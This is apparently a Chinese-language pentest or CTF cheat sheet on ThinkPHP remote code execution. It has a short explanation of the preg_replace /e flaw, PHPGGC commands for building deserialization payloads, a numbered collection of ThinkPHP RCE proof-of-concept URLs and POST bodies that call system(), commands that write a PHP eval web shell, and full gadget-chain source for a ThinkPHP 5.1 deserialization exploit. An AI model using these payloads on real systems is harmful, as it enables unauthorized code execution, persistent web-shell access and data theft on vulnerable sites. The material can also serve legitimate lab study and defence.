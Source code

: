 


**thinkphp rce漏洞**：比如5.0版本有个rce漏洞，该漏洞的漏洞关键点存在于thinkphp/library/think/Request.php文件中
在docker中复现了多种版本的rce漏洞。

**漏洞的原理有了解吗,攻击后的返回包的有分析过吗?**
THINKPHP RCE漏洞的原理：举例有一个RCE是这样的：Dispatcher.class.php中res参数中使用了preg_replace的/e危险参数，使得preg_replace第二个参数就会被当做php代码执行，导致存在一个代码执行漏洞，攻击者可以利用构造的恶意URL执行任意PHP代码。

^
phpMyadmin漏洞：
<https://dummykitty.github.io/php/2020/11/22/phpmyadmin-%E5%90%8E%E5%8F%B0-getshell-%E5%8F%8A%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E6%80%9D%E8%B7%AF%E6%95%B4%E7%90%86.html#cve-2013-3238>


^
## **php框架反序列化利用工具PHPGGC**
>PHPGGC 是一个 unserialize（） 有效负载库，以及从命令行或编程方式生成它们的工具*。 当您在没有代码的网站上遇到反序列化时，或者只是在尝试构建漏洞时，此工具允许您生成有效负载，而无需经历查找小工具并组合它们的繁琐步骤。它可以被视为相当于[frohoff的ysoserial](https://github.com/frohoff/ysoserial)，但对于PHP。 目前，该工具支持小工具链，例如：CodeIgniter4，Doctrine，Drupal7，Guzzle，Laravel，Magento，Monolog，Phalcon，Podio，Slim，SwiftMailer，Symfony，Wordpress，Yii和ZendFramework，wordpress。

安装：
<https://www.cnblogs.com/xrzxyyds/p/the-introduction-and-installation-of-the-use-of-phpggc-s81yc.html>
```
克隆进入目录即可使用
https://github.com/ambionics/phpggc
```

使用：
```
./phpggc -l
列出

./phpggc -i Laravel/RCE2 

./phpggc -i Laravel/RCE2 system 'tac /fl*' |base64
生成序列化串

./phpggc ThinkPHP/RCE3 system() "cat /flag" --base64`
./phpggc Yii2/RCE1 exec 'cp /fla* test.txt' --URL
```



^
## **Thinkphp RCE　POC大全**
在 Vulhub 中，也可以找到了该漏洞的利用 POC

**Thinkphp 5.0.22 POC**
1. `http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.username`
2. `http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.password`
3. `http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id`
4. `http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`

**Thinkphp 5 POC**
5. `http://127.0.0.1/tp5/public/?s=index/\think\View/display&content=%22%3C?%3E%3C?php%20phpinfo();?%3E&data=1`

**Thinkphp 5.0.21 POC**
6. `http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id`
7. `http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`

**Thinkphp 5.1.x POC**
8. `http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=phpinfo&data=1`
9. `http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=system&data=cmd`
10. `http://url/to/thinkphp5.1.29/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E`
11. `http://url/to/thinkphp5.1.29/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E`
12. `http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`
13. `http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd`
14. `http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`
15. `http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd`

**Thinkphp 未知版本 POC**
16. `?s=index/\think\module/action/param1/${@phpinfo()}`
17. `?s=index/\think\Module/Action/Param/${@phpinfo()}`
18. `?s=index/\think/module/aciton/param1/${@print(THINK_VERSION)}`

**Thinkphp 5.0.23 (完整版) debug模式 POC**
32. `(post)public/index.php 
32. (data)_method=__construct&filter[]=system&server[REQUEST_METHOD]=touch%20/tmp/xxx`

```
echo "<?php phpinfo();?>" > /var/www/public/test2.php

echo "<?php @eval(\$_POST['cmd']);?>" > /var/www/public/test.php
```




**Thinkphp 5.0.23 (完整版) POC**
33. `（post）public/index.php?s=captcha
33.  (data) _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls -al`

**Thinkphp 5.0.10 (完整版) POC**
34. `(post)public/index.php?s=index/index/index (data)s=whoami&_method=__construct&method&filter[]=system`

**Thinkphp 5.1.x 和 5.2.x 和 5.0.x POC**
35. `(post)public/index.php (data)c=exec&f=calc.exe&_method=filter`





^

## **Tinkphp 5.1反序列化**
入口
```
?&lin=cat /flag&data=序列化串
?lin=id  POST  code=序列化串
```
```
<?php
namespace think;
abstract class Model{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this->append = ["lin"=>["calc.exe","calc"]];
        $this->data = ["lin"=>new Request()];
    }
}
class Request
{
    protected $hook = [];
    protected $filter = "system"; //PHP函数
    protected $config = [
        // 表单ajax伪装变量
        'var_ajax'         => '_ajax',  
    ];
    function __construct(){
        $this->filter = "system";
        $this->config = ["var_ajax"=>'lin']; //PHP函数的参数
        $this->hook = ["visible"=>[$this,"isAjax"]];
    }
}


namespace think\process\pipes;

use think\model\concern\Conversion;
use think\model\Pivot;
class Windows
{
    private $files = [];

    public function __construct()
    {
        $this->files=[new Pivot()];
    }
}
namespace think\model;

use think\Model;

class Pivot extends Model
{
}
use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
?>
```